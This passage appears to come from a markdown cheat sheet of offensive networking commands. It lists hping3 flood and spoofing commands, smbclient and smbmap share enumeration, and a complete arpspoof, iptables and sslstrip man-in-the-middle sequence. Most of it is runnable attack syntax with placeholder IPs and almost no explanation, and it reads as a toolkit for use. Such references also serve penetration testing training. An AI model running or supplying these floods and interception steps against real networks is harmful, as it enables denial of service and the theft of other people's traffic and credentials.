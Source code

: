     hping3 -a 192.168.0.1 -S 192.168.0.2 -p ++20
    0.1=server || 0.2=attacker

    hping3 --udp -S 192.168.0.1 -p 80 --flood

    hping3 --icmp -S 192.168.0.1 -p 80 --flood

    hping3 --rand-source -S 192.168.0.1

    hping3 --ttl {value} -S {IP}

    hping3 --count {no.of packets} -S {ip add.}

    hping3 -scan 0-500 -S {IP}

    hping3 --flood -S --rand-source {IP}
    ```

___

# Exploitation

+ **smbclient**

  [Transport Layer](), [Network Layer]()

  Installation : `sudo apt install smbclient -y`

    ```
    smbclient -L \\\\192.168.0.1\\

    smbclient \\\\192.168.0.1\\tmp

    > help
    > dir
    ```

+ **smbmap**

  [Transport Layer](), [Network Layer]()

  Installation : `sudo apt install smbmap -y`

    ```
    smbmap -H 192.168.0.1
    ```

___

# MITM Attack

+ **arpspoof**

  [Transport Layer](), [Network Layer]()

  Installation : `sudo apt install arpspoof -y`

  ```
  echo 1 > /proc/sys/net/ipv4/ip_forward

  iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080

  arpspoof -i eth0 -t 192.168.1.218 -r 192.168.1.1
  // 192.168.1.218 : Hacking Machine
  // 192.168.1.1 : Hacking Machine Gateway (Router IP / Hotspot IP)

  sslstrip -l 8080

  nano sslstrip.log
  ```
